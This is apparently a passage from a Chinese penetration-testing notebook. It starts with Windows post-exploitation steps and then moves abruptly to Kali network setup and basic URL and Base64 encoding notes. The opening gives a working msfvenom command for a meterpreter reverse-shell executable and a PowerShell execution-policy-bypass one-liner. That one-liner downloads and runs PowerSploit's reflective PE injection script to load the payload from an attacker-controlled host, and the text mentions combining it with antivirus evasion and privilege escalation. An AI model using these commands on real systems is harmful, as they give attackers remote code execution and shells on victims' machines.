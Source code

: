 
即可反弹meterpreter session

3.加载exe

msfvenom生成exe木马（不免杀）

        msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.197.195 lport=4444 -f exe > /var/www/html/test.exe     

还是powersploit的Invoke-ReflectivePEInjection.ps1脚本，可以直接远程加载exe达到bypass

        powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.197.195/test.exe   -ForceASLR"     

成功反弹meterpreter shell



该脚本也可以结合之前的bypass方式进行免杀提权。

其余参考资料

    15-ways-bypass-powershell-exec

    Powershell-Basic-learning


## 系统配置

### 配置上网

**kali网络配置**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210515003648812.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L25nYWRtaW5x,size_16,color_FFFFFF,t_70)



## 入场券：基本常见知识点
### 编码
#### URL编码
互联网只接受 ASCII 格式的 URL，URL 编码需要对 URL 字符集的某些部分进行编码。此过程将一个字符转换为一个字符三元组，其前缀为“%”，后跟两个十六进制格式的数字。

#### **Base64**
用于传输8Bit字节码的编码方式之一，Base64就是一种基于64个可打印字符来表示二进制数据的方法。Base64编码是从二进制到字符的过程，可用于在HTTP环境下传递较长的标识信息。同样以“https://mp.toutiao.com”头条号主页地址为例，经过Base64编码后结果如下图所示：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210521203026938.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L25nYWRtaW5x,size_16,color_FFFFFF,t_70)

### 密码学和编码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210628202441986.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210603154257943.png)

